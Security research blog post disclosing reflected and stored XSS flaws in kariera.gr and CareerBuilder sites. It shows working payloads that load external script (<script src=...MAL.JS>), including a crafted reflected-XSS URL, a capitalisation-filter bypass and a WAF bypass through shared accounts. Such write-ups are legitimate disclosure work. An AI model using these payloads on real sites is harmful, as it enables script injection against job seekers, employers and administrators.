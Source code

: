 =====================================================
Your WAF alone, is not enough, not enough, not enough
=====================================================

:date: 2016-05-27
:modified: 2016-06-06 17:40
:tags: XSS
:category: research
:slug: careerbuilder-xss
:authors: Ioannis Kakavas
:summary: Reflected and Stored XSS in multiple careerbuilder sites

TL;DR
+++++
A number of XSS vulnerabilities were identified in multiple sites owned by CareerBuilder



Introduction
++++++++++++

`Cross-site Scripting (XSS) <https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29>`_ is not new, not fancy, and sometimes frowned upon by security researchers as low hanging
fruits that are not worth the fuss that is made about them. I'm not exactly sure where I stand on the matter, but I do enjoy the occasional XSS hunt, especially if there is more to it than
entering the payload in a GET parameter and popping the alert box. This is one of a series of posts on XSS vulnerabilities that I have found in some sites that I consider worth sharing, either 
because of the target or some complexity/fun in exploiting them. 

CareerBuilder
+++++++++++++

CareerBuilder, according to them "has the largest online job site in the U.S., but we're more than just a job board. We are the global leader in human capital solutions. Through constant innovation, unparalleled technology, and customer care delivered at every touch point, CareerBuilder helps match the right talent with the right opportunity more often than any other site."
They have presence in more than 60 countries worldwide

 * www.careerbuilder.com (Alexa ranking : 462 in U.S., 1,741 worldwide)
 * www.careerbuilder.co.uk (Alexa ranking :  2.915 in UK)   
 * www.careerbuilder.es
 * www.careerbuilder.fr
 * www.careerbuilder.se (Alexa ranking : 943 in Sweden)
 * www.kariera.gr (Alexa ranking : 97 in Greece)

etc. 

Reflected XSS
-------------
I started my probing around from `the greek version <http://www.kariera.gr>`_ in their search field, using my favorite "xxxxx'yyyyy</img that I have long "stolen" from `Ashar <http://respectxss.blogspot.com>`_ and saw that none of the ", ', <, / were escaped as can be seen in the following screenshot

.. figure:: /images/kariera-1.png
   :alt: "xxxxx'yyyyy<img echoed back unescaped
      :width: 80 %
       
It can be seen that the first X and the I are capitalized ( this comes into play later on ). Ok, it looks like it can be exploited, what do we try next?

So, let's try to add an html tag and see if that goes through. I probe with <img> and get the following:

.. figure:: /images/kariera-2.png
    :alt: <img> echoed back escaped
       :width: 80 %

< and > are replaced by their unicode representation. The same happens with all tags that are closed. So no luck using payloads directly in the search parameter. 

Next I tried invoking JavaScript in the onerror of an <img> tag, as I thought it would not be necessary to close the tag, it would be closed by the next available '> character in the html. 
I entered *<img src="X" onerror="confirm(1);"* and waited for my confirm box to pop, but nothing. I could see the image placeholder in the page, 

.. figure:: /images/kariera-3.png
     :alt: img error attempt 1
     :width: 67 %


but no JavaScript was executed. Checking the source, I got the following:

.. figure:: /images/kariera-4.png
    :alt: img error attempt 2
    :width: 80 %

That should pop right? Wrong. JavaScript functions are of course case sensitive and **Confirm()** is not the same as **confirm()**. 

*Security by UX* as the web developer obviously thought that it would look nice if they capitalized the first letter of any given "word"..

But then, it hit me. I might not be able to inject <script> tags with inline Javasript code to be executed, both because of the capitalization of words and the fact that full tags are escaped, but if I can use an open *<img* tag, then I could use an open *<script* tag to load a malicious script from a remote server. CSP might cause a problem, but it didn't feel like they would have
bothered with using CSP in the first place. I took a look at the response headers and verified my thoughts

.. figure:: /images/kariera-response-headers.png
     :alt: kariera.gr response headers
     :width: 80 %

First attempt with this kind of payload was *<script src="http://XXX.XXX.XXX.XXX/testxss/mal.js"* where mal.js contained just an alert. Shockingly enough, I did not get anything from the browser. I took a look at my server logs to see if everything was ok and the culprit revealed itself : 

*[31/Mar/2016:17:56:25 +0300] "GET **/Testxss/Mal.Js** HTTP/1.1" 404 703 *

Sure enough the capitalization function had messed up the payload before reflecting it back to me, which caused a request to the wrong path. Quick solution was to host my JavaScript in a all capital path and name it MAL.JS so that the payload became : *<script src="http://XXX.XXX.XXX.XXX/TESTXSS/MAL.JS"* (XSS RAGE!!!). Hit the search button and got an alert box 

.. figure:: /images/kariera-reflected-xss.png
     :alt: Reflected XSS
     :width: 80 %

Stored XSS
----------

So, if these controls are in place for the search input, what would be different for other user related input?

Nothing, as it turns out. 

I created a test user and soon enough identified that most of the user form data are vulnerable to the same payload that was used in the search form 

.. figure:: /images/kariera-registration-form.png
      :alt: Registration form
      :width: 50 %

So I set my first name as *Χρήστος<script src="http://XXX.XXX.XXX.XXX/TESTXSS/MAL.JS"*, successfully submitted the form, and upon reload I was greeted by yet another alert box

.. figure:: /images/kariera-stored-xss.png
     :alt: kariera.gr stored  XSS
     :width: 50 %

The same payload was used on other input fields of the registration form but the vulnerability was prevalent in all parts of the web application. For example, I was able to upload a CV with the name *my_cv<script src="https://XXX.XXX.XXX.XXX/TESTXSS/MAL.JS"*, and it would be happily consumed, resulting in the following anytime I accessed my CV page. 

.. figure:: /images/kariera-stored-xss-cv.png
     :alt: kariera.gr stored  XSS CV
     :width: 50 %

What's interesting, is why exactly this payload works. Let's take a look at the source code:

.. figure:: /images/kariera-stored-xss-source.png
     :alt: kariera.gr stored  XSS source
     :width: 50 %

Starting on line 131 we see our payload injected. The *</h3>* on line 132, and the closing *>* in particular closes our <script> which effectively becomes

.. code-block:: html
 
   <script src="https://XXX.XXX.XXX.XXX/TESTXSS/MAL.JS" </h3>

The script is closed by the closing *</script>* tag in line 462 and everything in between is not rendered. 

Depending on the distance between where our payload is injected in the page and the next *</script>* closing tag, a lot oh HTML/JS can be disregarded, which might affect how the page is rendered in the victim's browser. On the other hand we can inject anything we want from our mal.js script so with a little more work we can make the page look as benign as the original.


Going Global
------------

Having identified these issues in the Greek version of the website, I thought that since all the careerbuilder network websites look pretty much similar, they are based
on the same implementation and thus vulnerable to the same attacks. Since, obviously, the impact of a stored XSS on careerbuilder.com is much bigger than one on kariera.gr, I pointed my browser to www.careerbuilder.com and used the same payload. Well, tough luck.. 

.. figure:: /images/kariera-waf.png
     :alt: careerbuilder.com WAF
     :width: 50 %

It looks like they are using some kind of Web Application Firewall that detects the XSS payload in the request and denies it. The same was true for all my attempts to create an account in careerbuilder.com injecting the payloads in the form fields or CV uploads as before. The same, unsuccessful, results in all the other national versions of the careerbuilder websites. All that I checked were protected by the same WAF. 

But, all the above versions of the website have something in common. The user account repository. In short, I could create an account in kariera.gr which is vulnerable, and then use these credentials to log in to www.careerbuilder.com, where I got the following

.. figure:: /images/careerbuilder-stored-xss.png
     :alt: kariera.gr stored  XSS
     :width: 50 %


Threat Model
------------

1. Unregistered_attacker: An attacker with no account on the website could create a crafted URL and trick a victim into requesting the URL, which would cause the user's browser to execute arbitrary JavaScript code. This would not work on Chrome, as the XSS protection kicks in and mitigates the reflected XSS attempt.

.. code-block:: html

   https://www.kariera.gr/intl/jobseeker/jobs/jrp.aspx?HdnIFlexSearchBox=1&_ctl7%3AucSearchBox%3A_ctl0%3ActrlSearch%3AhihLanguage=GRGreek&IPath=QH&sc_cmp1=JS_GR_QSB_GEN&_ctl7%3AucSearchBox%3A_ctl0%3ActrlSearch%3AMXJobSrchCriteria_Rawwords=%22%2F%3Esecurity+%3Cscript+src%3D%22https%3A%2F%2F1.1.1.1%2FTESTXSS%2FMAL.JS%22&_ctl7%3AucSearchBox%3A_ctl0%3ActrlSearch%3AMXJobSrchCriteria_City1=%CE%91%CE%B8%CE%AE%CE%BD%CE%B1&sbmt=%CE%95%CF%8D%CF%81%CE%B5%CF%83%CE%B7+%CE%91%CE%B3%CE%B3%CE%B5%CE%BB%CE%B9%CF%8E%CE%BD&_ctl7%3AucSearchBox%3A_ctl0%3ActrlSearch%3AMXJobSrchCriteria_States=

   
2. Registered_attacker: An attacker with an account on the website could edit their contact details in order to include arbitrary externally hosted JavaScript. Then,the browser of anyone seeing their profile, or their contact details if included in search results or other views would execute that. Potential victims include employers looking for candidates, site administrators, etc.

3. Registered_employer: An attacker with an employer account on the website could upload a job advert with arbitrary externally hosted JavaScript.Then,the browser of anyone seeing that advert, or if it was returned in a search result would execute that. Potential victims include candidates looking for jobs, site administrators, etc.


Disclosure Timeline
+++++++++++++++++++

 * 01/04/2016: Contacted TSST@careerbuilder.com looking for a contact where I could disclose my report.
 * 01/04/2016: Trust and Site Security Team replied that I could share the report with them.
 * 04/04/2016: Sent the detailed report to TSST including PoCs and screenshots.
 * 25/04/2016: Sent a reminder to TSST inquiring about the process.
 * 10/05/2016: Sent a reminder to TSST inquiring about the process.
 * 10/05/2016: TSST replied that they are looking into the matter.
 * 26/05/2016: Sent a reminder to TSST inquiring about the process.
 * 26/05/2016: TSST replied that the WAF has been deployed in all their national websites, thus they consider the issue solved.
 * 06/06/2016: Public Disclosure.  
